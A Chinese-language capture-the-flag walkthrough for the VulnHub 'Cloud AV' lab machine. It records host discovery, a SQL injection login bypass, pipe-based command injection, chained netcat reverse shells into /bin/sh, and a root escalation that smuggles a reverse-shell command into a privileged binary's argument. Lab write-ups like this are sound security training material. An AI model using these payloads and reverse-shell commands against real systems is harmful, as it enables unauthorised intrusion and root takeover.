



# 下载地址

https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/


# 靶机目标

获取靶机root权限


# 详细步骤


## 主机发现

```
arp-scan -l -I eth1 
```


发现存活主机

```
nmap -sV 192.168.56.105
```


发现开放 22 和 8080端口


## web信息收集

进入192.168.56.105:8080后发现需要登录


弱密码和万能密码都试一遍

发现万能密码`1"or 1=1-- -`可以直接登录



输入命令后发现并没有放回想要的信息

尝试管道符`id|id`可以放回有效信息


## 反弹shell


开始反弹shell

查看靶机是否有nc命令 

```
id|which nc
```


发现有nc命令，所以可以使用nc反弹shell

```
nc -lvvp 6666									//攻击端

id|nc 192.168.56.103 6666 -e /bin/sh			//靶机
```

发现怎么都弹不过来，查阅资料后，发现nc老版本没有-e命令，于是选择用nc串联来反弹shell

现在攻击端开启俩个监听端口

```
nc -lvvp 7777
nc -lvvp 8888

id|nc 192.168.56.103 7777 | /bin/sh |nc 192.168.56.103 8888
```



反弹shell成功

nc串联后到前面的7777端口发送命令，会在8888端口回显



然后信息收集一番并无结果

然后

```
ls -l /home/scanner
```


发现`update_cloudav`有root权限，且`update_cloudav.c`为源码，进行代码审计

尝试运行，报出提示


发现需要输入一个参数使用，且需要`""`，现在尝试运用管道符和nc串联反弹shell

```
nc -lnvp 7777
nc -lnvp 8888
```


```
./update_cloudav "a|nc 10.0.0.14 7777 | /bin/sh | nc 10.0.0.14 8888"
```

成功后，发现已经是root权限
